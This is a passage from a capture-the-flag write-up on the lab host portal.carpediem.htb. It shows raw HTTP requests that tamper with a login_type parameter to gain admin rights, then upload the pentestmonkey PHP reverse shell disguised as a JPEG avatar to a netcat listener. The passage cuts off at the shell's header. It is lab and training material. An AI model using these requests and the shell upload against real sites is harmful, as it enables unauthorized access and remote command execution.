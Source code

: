 ```
POST /classes/Master.php?f=update_account HTTP/1.1
Host: portal.carpediem.htb
Content-Length: 114
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://portal.carpediem.htb
Referer: http://portal.carpediem.htb/?p=edit_account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c303a9678970c048cb546415268e139b
Connection: close

id=26&login_type=2&firstname=test&lastname=test&contact=test&gender=Male&address=test&username=test&password=test2
```

There is that login_type parameter. What if we change that to 1 instead??

Upon changing the login_type to 1, which is the admin (we know this as we were the first one to create an account, which set our login_type to 2, so this allowed us to elevate our privilages).

Now we can successful authenticate to the *portal.carpediem.htb/admin/* page!

### Planting a Shell

I noticed on the admin page is a place to upload thumbnails of your bikes. So I'm going to attempt to plant a php shell there.

So after trying there a bit, I poked around some more and found a quarterly sale report page that claimed it was "under development".

I also found a potential file upload vulnerability in the avatar upload on the admin user's settings.

I dug up a php reverse shell from here and pasted it in after changing the ip address values: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Then I ran a netcat listener and waited...

The request:

```
POST /classes/Users.php?f=upload HTTP/1.1
Host: portal.carpediem.htb
Content-Length: 5873
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuvzYJhBo2FEjbqaP
Origin: http://portal.carpediem.htb
Referer: http://portal.carpediem.htb/admin/?page=user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c303a9678970c048cb546415268e139b
Connection: close

------WebKitFormBoundaryuvzYJhBo2FEjbqaP
Content-Disposition: form-data; name="file_upload"; filename="shell.php"
Content-Type: image/jpeg

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
```